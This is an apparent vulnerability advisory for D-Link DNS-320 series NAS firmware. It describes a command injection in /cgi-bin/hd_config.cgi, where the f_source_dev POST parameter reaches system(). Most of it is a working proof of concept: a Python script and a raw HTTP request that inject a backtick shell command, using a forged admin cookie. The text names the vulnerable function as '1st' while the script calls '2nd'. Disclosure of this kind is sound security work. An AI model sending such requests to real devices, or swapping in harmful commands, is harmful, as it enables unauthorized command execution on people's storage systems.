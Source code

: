 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_FMT_Std2R5_1st_DiskMGR function of the file /cgi-bin/hd_config.cgi.  The variable `f_source_dev`is passed from a POST request and is assigned to `v3` via the `sprintf` function at line 43 and invoked by the `system` command, it can lead to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736876772-6d599001-1c4f-4bc3-bbbb-ec626b5a1692.png#averageHue=%23fbfaf9&clientId=u970bf91e-c803-4&from=paste&height=203&id=ude007197&originHeight=203&originWidth=1059&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39578&status=done&style=none&taskId=ubf33f57b-6aae-403c-b2a7-04757840bf1&title=&width=1059)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723736871362-fb3ecbbc-3d1f-4927-8708-c37f3be887b8.png#averageHue=%23fefefb&clientId=u970bf91e-c803-4&from=paste&height=121&id=u97c30f42&originHeight=121&originWidth=1231&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23285&status=done&style=none&taskId=ucd4e05ea-a8f7-4039-a216-4370c1eb82b&title=&width=1231)
# POC
```java
import requests

url = "http://192.168.0.32/cgi-bin/hd_config.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_FMT_Std2R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/0000`&f_file_system=1&f_newly_dev=1"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

```
POST /cgi-bin/hd_config.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_FMT_Std2R5_2nd_DiskMGR&f_volume_name=1&f_source_dev=`touch+/tmp/0000`&f_file_system=1&f_newly_dev=1
```

